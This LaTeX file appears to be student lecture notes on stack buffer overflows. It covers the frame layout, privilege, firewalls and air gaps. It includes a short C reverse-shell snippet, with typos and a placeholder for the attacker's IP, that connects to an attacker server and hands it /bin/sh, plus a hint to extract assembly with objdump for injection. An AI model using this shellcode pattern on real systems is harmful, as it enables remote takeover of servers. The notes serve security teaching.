 \documentclass[12pt]{article}
\theoremstyle{definition}
\begin{document}
\begin{itemize}
    So the stack is going to look like (top to bottom) caller frame, return address, saved \%\texttt{ebp}, and then \texttt{buf} (in reverse order 127, \ldots 2, 1, 0).
    \item Shell code example: attacker to open a socket to attacher-controled server to receive commands from that server. The code they are going to insert is:
    \begin{lstlisting}
        int sock = socket(AE_INET, SOCK_STREAM, 0);
        connect(sock, /* hardcoded IP address of the attacker server */);
        dup2(sock, 0); // stdin of server
        dup2(sock, 1); // stdout of server
        dup2(sock, 2); // stderr of server
        execv(``/bin/sh");
    \end{lstlisting}
     So the server is going to create and connect the socket to an address controlled by the attacker; it's then going to map all the standard file descriptors to the socket so that the all the server's input and output get redirected to the socket. And then finally we're going to exec a shell so that the attacker can control the machine.
    \item Will this actually work? The attacker can create the above code on their machine and then \texttt{objdump -d} to get the assembly to inject.
    \item Once the shell runs, it runs with the same permissions as the server process. This is why you shouldn't run things are root.
    \item This was a prevalent techinque 20-30 years ago because it was very easy for the attacker to figure out the information (instruction set, where things were in memory).
    \item what happens once an attacker controls the server? The subverted server just runs with the privilege of the server, and if that privilege is root then everybody dies. The attacker can then try to subvert the other machines behind the firewall. Within the firewall, we restrict what machines can enter in (ingress). For example, we can have a web server that allows connections through the firewal on a certain port. The web server can then be authorized to make requests to the sensitive machine (inaccessible). So if you have machines that straddle the boundaries of your firewall it is very important that you make those machines secure.
    \item \textbf{airgrapped security} is where there is literally no way for sensitive machines to talk to insensitive machines. Stuxnet (2010) had to use USB keychains to fuck with the airgapped Iranian nuclear centrifuges.

\end{itemize}
\end{document}

